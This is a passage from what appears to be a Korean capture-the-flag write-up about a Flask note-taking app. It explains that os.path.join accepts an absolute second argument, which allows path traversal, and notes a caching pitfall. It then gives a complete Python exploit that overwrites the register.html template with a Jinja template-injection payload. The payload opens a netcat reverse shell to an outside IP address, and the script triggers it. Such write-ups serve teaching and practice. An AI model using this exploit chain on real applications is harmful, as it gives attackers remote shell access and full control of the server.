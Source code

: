 하지만, `os.path.join("/app", "/tmp/test")`와 같이 두 번째 인자에 `/`로 시작하는 `path`를 입력하면 `/tmp/test`를 반환한다. 

이로 인해, `Path Traversal` 취약점이 발생하여 원하는 경로에 파일을 쓸 수 있다.    
                      
회원가입 페이지인 `/app/templates/register.html` 경로에 리버스 쉘(Reverse Shell) 코드를 작성해주고, 회원가입 페이지에 방문해주면 리버스 쉘이 연결되는 것을 확인할 수 있다.       

```python
app.config['CACHE_TYPE'] = 'FileSystemCache'
app.config['CACHE_DIR'] = './caches'
app.config['CACHE_THRESHOLD'] = 100000
cache.init_app(app)
```        
              
단, 주의해야할 점은 캐시를 사용하고 있어 `register.html` 파일을 덮어쓰기 전까지 POST 요청만을 보내야한다. 
        
파일을 덮어쓰기 전에 GET 요청을 보내게 되면, 캐시에 해당 페이지를 저장하게 되어 재요청 시 캐시에 저장된 페이지가 반환되어 덮어씌어진 파일이 반환되지 않기 때문이다.                    

### Exploit Code     
            
```python
import httpx 
from base64 import b64encode

USERNAME = "asdfasdfasdf1234" 
PASSWORD = "asdfasdfasdf1234"

# url = "http://localhost:7000"
url = "https://ch21496143555.ch.eng.run"


client = httpx.Client(base_url=url) 
res = client.post("/register", data={
    "username": USERNAME,
    "password": PASSWORD
})
print(res.status_code)

res = client.post("/login", data={
    "username": USERNAME, 
    "password": PASSWORD
})
print(res.status_code)
cookies = res.cookies

res = client.post("/makenote", data={
    "title": "/app/templates/register.html", 
    "content": b64encode(
    b"""
    <html> 
        <head></head> 
        <body>
            {% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').system("nc 43.202.45.90 8000 -e /bin/sh") }}{% endraw %}
        </body>
    </html> 
    """
    ).decode("utf-8")},
    cookies=cookies
)
print(res.status_code)

httpx.Client(base_url=url).get("/register", timeout=None) 
```            
      